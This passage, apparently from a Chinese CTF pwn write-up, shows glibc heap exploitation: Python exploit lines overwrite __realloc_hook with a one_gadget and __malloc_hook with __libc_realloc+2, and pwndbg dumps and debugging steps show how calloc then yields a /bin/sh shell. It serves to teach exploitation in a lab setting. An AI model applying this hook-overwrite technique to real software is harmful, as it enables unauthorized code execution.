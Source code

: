 开始写入one_gadget和__libc_realloc：

```python
__libc_realloc_addr=libc_base+libc.symbols['__libc_realloc']
payload=p64(one_gadget_addr)+p64(__libc_realloc_addr+2)
write(6,0x1C,'c'*8+'d'*3+payload)
```

写入之后效果如下：

```python
pwndbg> x/16gx 0x7ffff7dd1ae0
0x7ffff7dd1ae0 <_IO_wide_data_0+288>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1af0 <_IO_wide_data_0+304>:	0x00007ffff7dd0260	0x6363630000000000
0x7ffff7dd1b00 <__memalign_hook>:	0x6464646363636363	0x00007ffff7a5227a
    													#__realloc_hook
        												#指向one_gadget
0x7ffff7dd1b10 <__malloc_hook>:	0x00007ffff7a91712	0x000000000000000a
    							#__malloc_hook指向如下图所示
0x7ffff7dd1b20 <main_arena>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0xfff7a92ea0000000	0x0000000000000000
pwndbg>
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610935526104-89fe3497-d51f-40c1-90ca-430b72b2ade1.png)

稍微理解一下：

先把 one_gadget 写到 __realloc_hook 中，然后把 __GI___libc_realloc+2 写到 malloc_hook 中，当去 calloc时由于__malloc_hook当中存放有内容，因此会先去执行 __malloc_hook中的__GI___libc_realloc+2；当执行__GI___libc_realloc+2中的“call rax”会去执行 __realloc_hook 里的 one_gadget 从而拿到 shell。

---

来探索一下流程，为方便说明，我们倒着来推：已知下面的one_gadget可以getshell：

```python
0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL
```

这样调试：

```python
payload=p64(one_gadget_addr)+p64(__libc_realloc_addr+2)
write(6,0x1C,'c'*8+'d'*3+payload)
gdb.attach(p,'b calloc') #对calloc进行下断点
create(0x10)
```

开始调试：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610937118470-efb5393e-34e6-48b0-8e6c-c70061da6067.png)

程序并没有断在calloc，而是断在了read函数的领空，多次输入finish之后以断在calloc领空：
